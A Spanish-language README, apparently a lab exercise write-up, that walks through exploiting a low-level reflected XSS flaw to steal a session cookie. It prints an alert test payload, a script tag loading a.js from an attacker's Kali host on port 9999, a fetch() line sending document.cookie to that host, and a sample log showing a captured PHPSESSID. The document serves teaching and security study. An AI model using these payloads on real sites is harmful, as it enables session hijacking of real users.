


# Explotación de Vulnerabilidad XSS para Robo de Cookies (Nivel Bajo)

## Descripción

Este repositorio documenta un ejercicio práctico de explotación de una vulnerabilidad de Cross-Site Scripting (XSS) de tipo reflejado de nivel bajo. El objetivo principal es demostrar cómo un atacante puede inyectar código JavaScript malicioso en una página web vulnerable para robar la cookie de sesión de un usuario autenticado.

## Herramientas Necesarias

* **Servidor Web Temporal:** Necesario para recibir la cookie robada. Se puede utilizar un servidor simple como `netcat` o un servidor HTTP más completo como `SimpleHTTPServer` de Python.
* **Navegador Web:** Para interactuar con la página web vulnerable e inyectar el payload.

## Pasos para la Explotación

1.  **Identificar el Punto de Inyección:**
    * Se identificó un formulario web con un campo de entrada de texto.
    * Al ingresar un nombre y hacer clic en "Submit", la aplicación muestra un saludo como "Hello [nombre_ingresado]". Esto indica que la entrada del usuario se refleja en la página sin un saneamiento adecuado, lo que sugiere una posible vulnerabilidad XSS.

2.  **Verificar la Posibilidad de Inyección de JavaScript:**
    * Se inyectó el siguiente payload en el campo del formulario:
        ```html
        <script>alert('¡XSS!');</script>
        ```


    * Al hacer clic en "Submit", la aparición de una ventana de alerta con el texto "¡XSS!" confirmó la capacidad de ejecutar código JavaScript en la página.



3.  **Preparar el Payload para Robo de Cookies:**
    * Se preparó un payload para enviar la cookie al servidor web temporal. Se asumió que el servidor web está corriendo y escuchando en el puerto `9999`.
    * Se inyectó el siguiente payload en el campo del formulario, reemplazando `[tu_Kali_IP]` con la dirección IP de la máquina donde se ejecuta el servidor web temporal:
        ```html
        <script src="http://[tu_Kali_IP]:9999/a.js"></script>
        ```
    * Se creó un archivo llamado `a.js` en el servidor web temporal con el siguiente código JavaScript (asegurándose de reemplazar `[tu_Kali_IP]` con la dirección IP correcta):
        ```javascript
        fetch('http://[tu_Kali_IP]:9999/?cookie=' + document.cookie);
        ```

4.  **Enviar el Payload:**
    * Se hizo clic en el botón "Submit" del formulario con el payload inyectado.

5.  **Verificar la Inyección en el Código Fuente (Opcional pero Recomendado):**
    * Se inspeccionó el código fuente de la página resultante para confirmar que el payload `<script src="http://[tu_Kali_IP]:9999/a.js"></script>` se había insertado correctamente en el HTML.

6.  **Analizar los Logs del Servidor Web Temporal:**
    * Se revisaron los logs del servidor web temporal. Se esperaba una petición `GET` entrante a la ruta `/` con un parámetro `cookie` en la URL.
    * Un ejemplo de una entrada en el log esperada es:
        ```
        [IP_del_usuario] - - [fecha_y_hora] "GET /?cookie=PHPSESSID=valor_de_la_cookie; otra_cookie=otro_valor HTTP/1.1" 404 - "-" "Mozilla/5.0 ..."
        ```
    * La cookie robada (por ejemplo, `PHPSESSID`) estaría visible en los logs del servidor.


## Resultado

La explotación exitosa de la vulnerabilidad XSS permitió robar la cookie de un usuario que visitó la página con el payload inyectado. Esta cookie podría potencialmente ser utilizada por un atacante para secuestrar la sesión del usuario si no está debidamente protegida (por ejemplo, con `HttpOnly` flag).